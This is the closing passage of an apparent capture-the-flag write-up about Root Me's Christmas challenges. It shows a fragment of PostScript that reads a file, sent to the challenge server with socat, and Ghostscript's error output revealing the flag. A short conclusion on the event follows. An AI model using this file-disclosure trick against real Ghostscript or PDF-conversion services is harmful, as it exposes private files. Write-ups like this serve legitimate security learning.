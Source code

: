 ```postscript

string readstring exch pop 
show

showpage
```

We send the ghostscript file and get the flag.

```
$ cat hello.gs | socat - TCP:ROOT_ME_SERVER
GPL Ghostscript 9.53.3 (2020-10-01)
Copyright (C) 2020 Artifex Software, Inc.  All rights reserved.
This software is supplied under the GNU AGPLv3 and comes with NO WARRANTY:
see the file COPYING for details.
Loading NimbusSans-Regular font from /usr/share/ghostscript/9.53.3/Resource/Font/NimbusSans-Regular... 5014808 3478888 1914352 627166 1 done.
Error: /typecheck in --string--
Operand stack:
   (RM{Gh0Scr1pt_c4n_d0_THIS??}\n)   false
Execution stack:
   %interp_exit   .runexec2   --nostringval--   --nostringval--   --nostringval--   2   %stopped_push   --nostringval--   --nostringval--   --nostringval--   false   1   %stopped_push   1990   1   3   %oparray_pop   1989   1   3   %oparray_pop   1977   1   3   %oparray_pop   1833   1   3   %oparray_pop   --nostringval--   %errorexec_pop   .runexec2   --nostringval--   --nostringval--   --nostringval--   2   %stopped_push   --nostringval--
Dictionary stack:
   --dict:731/1123(ro)(G)--   --dict:0/20(G)--   --dict:77/200(L)--
Current allocation mode is local
Current file position is 586
Erreur lors de la conversion en PDF.
```

> Very interesting and original challenge. Made me learn on Ghostscript.

## Conclusion

I didn't have time (nor skills) to look in all challenges. I enjoyed the Xmas Root Me challenges for many reasons: *interesting to solve, different tricks and topics.* 

Perhaps I would have appreciated a growing difficulty, i.e very easy challenges for the first days, and more and more difficult when days pass. It wasn't the case: difficulty wasn't related to the day. 